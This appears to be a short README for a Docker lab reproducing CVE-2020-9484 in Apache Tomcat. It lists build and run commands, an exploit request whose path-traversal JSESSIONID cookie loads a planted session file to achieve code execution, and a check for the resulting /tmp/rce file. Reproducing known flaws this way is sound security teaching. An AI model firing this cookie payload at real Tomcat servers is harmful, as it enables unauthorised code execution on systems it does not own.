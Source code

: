 # CVE-2020-9484 (Tomcat)

For educational purposes only.

See Reference for the details.


## Run
```
$ cd CVE-2020-9484
$ docker build -t tomcat:groovy .
$ docker run -d -p 8080:8080 tomcat:groovy
```

## Exploit
```
$ curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy'
```

## Check
```
$ docker exec -it $CONTAINER /bin/sh
$ ls /tmp/rce
```
